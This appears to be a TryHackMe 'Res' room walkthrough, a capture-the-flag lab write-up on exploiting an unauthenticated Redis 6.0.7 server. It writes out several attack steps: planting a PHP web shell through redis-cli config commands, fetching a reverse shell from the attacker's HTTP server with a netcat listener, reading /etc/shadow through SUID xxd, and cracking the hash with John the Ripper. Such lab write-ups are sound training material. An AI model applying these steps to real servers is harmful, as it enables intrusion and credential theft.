




Res is a Try Hack Me room serving as a surface level introduction to pentesting the Redis database management system. Redis is a free, open-sourced, DBMS that provides data storage for processes, applications, and servers with an in-memory data structure. In this writeup, we will be exploring how to pentest a remote Redis instance with unauthenticated login enabled: the cause of server exploitation.
Service Enumeration
I am conducting the following port scans with nmapAutomator, a highly-recommended shell script that performs basic and in-depth nmap port scans automatically. You can clone the git repo and run it with ./nmapAutomator.sh [IP] All and leave the script running in the background while you manually enumerate services more in-depth.
My full nmapAutomator port scan returned open ports 80 and 6379.
80 : HTTP
Apache httpd 2.4.18 ((Ubuntu))
Landing page was the default Apache Ubtunu site page. When reporting this in an actual pentest writeup, it would be categorized as an information disclosure vulnerability due to the fact that it lets the user know where the website is running on the local machine. This may come in handy later.

6379 : Redist
Redis key-value store 6.0.7
The inital action I took was searching for any known CVEs that Redis 6.0.7 may have available. Running searchsploit redis 6.0.7 did not return any results.
I was unsure of how to begin enumerating this service further, so I looked up "how to pentest redist" and came across this extremely helpful article that details several methods for exploiting common misconfigurations.
I was able to connect to the cli interface using redis-cli -h [IP]. Unauthenticated login was enabled for some reason, so I have full access to the configuration and some basic commands.
This cheatsheet of redis cli commands was used for enumeration. After discovering I could view databases with the command below, I realized that there were no readable keys I had access to at this point.
KEYS *
SELECT 1
KEYS *
Using the INFO command allowed me to view some information about the Redis instance, and a few lines stood out to me in particular.

Redis was executed from the directory, /home/vianka/redis-stable/src/redis-server, proving that a user named vianka exists on the system.
Furthermore, we can view active server configurations by running CONFIG GET * from the Redis command line interface. The directory setting also appears at line 251 in the form of:
251) "dir"
252) "/"
Using the hacktricks.xyz article from earlier, we can see how this may be leveraged into giving us a reverse shell. The next section will cover how we gained a foothold into the system.
Foothold
Writable /var/www/html Directory
This specific section of a Redis pentesting article details how we can prove if we have the ability to write to the home html directory. Doing so would allow us to launch a PHP script from our web browser that gives us remote command execution. However, we end up having to make some adjustments to the original instructions due to the fact that there are some limitations with the type of content we can write using the Redis command line interface.
Connect to redis DB with redis-cli.
redis-cli -h [IP]
Since we are connected anomyously and can alter redis configrations, run config set dir /var/www/html. The directory we use in this step was found from the landing page at port 80.
config set dbfilename redis.php creates a new file in /var/ww/html named redis.php that we have write access to.
Write to the new redis.php file with set test "<?php system($_GET['cmd']); ?>"
Make sure you run the save command within redis-cli to write your changes to the redis.php file.
I had mentioned previously that we made some slight adjustments to the original instructions included in the hacktricks article. The original instructions detailed how we can make redis.php call the phpinfo() function, which would allow for even further information disclosure on the remote system. Since this is not our goal at the moment, we will instead replace it with a very primitive web shell.
If we navigate to http://MACHINE_IP/redis.php, we can execute commands remotely under the www-data user with a non-interactive shell. Executing cd /home/vianka ; cat user.txt shows us the user.txt file. The link below is an example of this command being executed:
At this point, we have the tools necessary to spawn a reverse shell.
Upgrading to an interactive reverse shell
Using the above method of getting RCE with a tiny non-interactive PHP web shell, we can curl an interactive reverse shell onto the home website directory.
I will be using the PenTest Monkey reverse shell. If you are using Kali Linux or Parrot Security, this can be found in /usr/share/webshells/php/php-reverse-shell.php, or run locate php-reverse-shell.php on your local machine if it isn't in the default directory.
Copy the php-reverse-shell php file to your current working directory. Be sure to open it with a text editor and input your own tun0 IP and port number.

Start up a simple HTTP server on port 80 using:
python -m SimpleHTTPServer 80
Start a netcat listener on the port you entered in your php-reverse-shell file. The screenshot above states port 4444.
nc -nvlp 4444
In your web browser, run curl to download your php-reverse-shell.php file to the current working directory.
With a netcat listener running, navigate to http://MACHINE_IP/shell.php. This will result in your netcat listener catching a reverse shell.
In your netcat reverse shell, run python -c 'import pty;pty.spawn("/bin/bash")' to make your shell interactive.
We now have a reverse shell running on our netcat listener.
Getting Vianka's Password
Linpeas automates the checking for obvious or basic privilege escalation vectors. We can download Linpeas to the remote machine's /tmp directory using steps 2 and 4 from the previous section.
After running Linpeas, I found that we can run the SUID binary, /usr/bin/xxd. This article here states that we can use xxd to view protected files. Here is how we can leverage this into finding Vianka's password.
View the /etc/shadow file with Vianka's password hash.
Save Vianka's hash into a seperate file on your local machine.
With the hash stored on your local machine, use John the Ripper to brute force it using the rockyou wordlist.
john vianka_hash --wordlist=/usr/share/wordlists/rockyou.txt
In a few seconds, we will have received a match for the password hash. Now we can switch into Vianka's user with the command su vianka and enter her cracked password.
Privilege Escalation
With user Vianka, we can run the sudo -l command to view what binaries we can run using sudo.

The last two lines state that this user can run all commands as sudo with a password, meaning we can run sudo su to gain root privileges. The root flag is now viewable at /root/root.txt.